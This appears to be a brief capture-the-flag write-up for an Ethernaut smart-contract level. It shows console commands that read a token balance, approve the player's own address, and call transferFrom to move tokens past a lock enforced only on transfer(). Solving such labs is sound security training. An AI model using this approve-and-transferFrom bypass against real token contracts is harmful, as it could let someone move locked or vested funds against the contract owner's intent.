 ## This can be solved in the ethernaut page itself.

### Get the amount of balance using:
```
bal = await contract.balanceOf(player)
balStr = bal.toString()
```

### Instead of using the transfer function, we'd want to use transfer from instead. In order to do so, we'd need to grant approval to either another address or our own for the address to be able to call transferFrom function:
```
await contract.approve(player, balStr)
await contract.transferFrom(player, contract.address, balStr)
```